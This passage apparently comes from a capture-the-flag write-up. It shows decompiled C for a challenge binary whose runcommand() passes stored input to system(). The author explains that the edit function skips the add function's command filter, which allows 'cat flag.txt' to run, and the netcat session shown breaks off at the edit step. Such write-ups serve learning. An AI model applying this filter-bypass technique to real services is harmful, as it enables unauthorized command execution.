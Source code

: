 ```
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

**runcommand**
```
void runcommand(void) {
  int iVar1;
  int local_18;
  char *local_10;

  local_18 = 0;
  puts("So you want to run the command:");
  printf("Enter the index of the command: ");
  iVar1 = number();
  if (((iVar1 < 0) || (2 < iVar1)) || (*(long *)(magic + (long)iVar1 * 8) == 0)) {
    puts("What do you want to run you idiot.");
  }
  else {
    local_10 = head;
    while (local_18 != iVar1) {
      local_10 = *(char **)(local_10 + 0x10);
      local_18 = local_18 + 1;
    }
    system(local_10);
  }
  return;
}
```

My apologies for all of the code dumping here, but it is important to see that
the **addcommand()** function checks the input and filters out specific commands that
would be useful to show the flag. The **runcommand()** function simply just runs
the function. The **editcommand()** function edits the command *WITHOUT* sanitizing.

This allows us to add a command, edit that command to whatever we want (probably
  'cat flag.txt') and run that command.

```
$ nc us.pwn.zh3r0.ml 8520
Please enter your name: itsecgary
Hello itsecgary

-------------------
1.) Add command.
2.) Run command.
3.) Edit command.
4.) Exit.
> 1
Enter the command you want to add.
> poopoo
Command added at index [0]
.-------------------
1.) Add command.
2.) Run command.
3.) Edit command.
4.) Exit.
> 3
Enter index you want to edit:
0
```